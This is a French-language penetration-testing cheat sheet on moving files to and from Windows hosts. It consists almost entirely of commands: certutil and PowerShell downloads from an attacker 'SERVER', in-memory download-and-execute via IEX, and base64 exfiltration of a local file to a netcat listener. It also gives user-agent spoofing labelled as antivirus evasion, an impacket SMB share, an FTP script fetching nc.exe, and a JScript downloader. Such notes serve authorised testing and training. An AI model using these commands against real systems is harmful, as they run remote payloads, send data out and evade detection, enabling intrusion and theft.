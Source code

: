# Certutil 

```sh
certutil -split -f -urlcache http://192.168.81.128/file.ext
```

# PowerShell

```c
(New-Object System.Net.WebClient).DownloadFile('http://SERVER/file.ext', 'c:\temp\output_file.ext')
```

Téléchargée et exécutée en mémoire

```c
IEX (New-Object Net.WebClient).DownloadString('http://SERVER/file.ext')
```

```c
Invoke-WebRequest 'http://SERVER/file.ext' -UseBasicParsing | IEX
```

Invoke-WebRequest & Invoke-RestMethod

```sh
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\temp\file.ext' -Encoding Byte))
Invoke-WebRequest -Uri 'http://SERVER:NETCAT_PORT' -Method POST -Body $b64

# Après avoir récupéré les données base64 avec Netcat, la charge utile peut être décodée.
echo <base64> | base64 -d -w 0 > output_file.ext
```

**Éviter la détection des AV**

Changer le user agent et liste les User-Agent

```sh
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl


Invoke-WebRequest 'http://SERVER/file.ext' -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\temp\output_file.ext"
```

# SMB
Mapper / Monter les disques

```sh
impacket-smbserver share . -smb2support
```

Monter le partage dans Ce PC

```c
net use Q: \\10.10.10.132\share 
```

Acceder au partage en CLI

```c
PS> pushd \\10.10.10.132\share
```

# FTP
Mettre ce contenu dans un fichier `ftp-script.txt`

```
open 10.10.10.32
anonymous
anonymous
lcd C:\Temp
get nc.exe
quit
```

Se connecter au FTP en utilisant le fichier `ftp-script.txt`

```sh
ftp -v -n -s:ftp-script.txt
```

# Javascript
Code dans un fichier `wget.js`

```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

```sh
cscript /nologo wget.js http://SERVER/file.ext output_file.ext
```
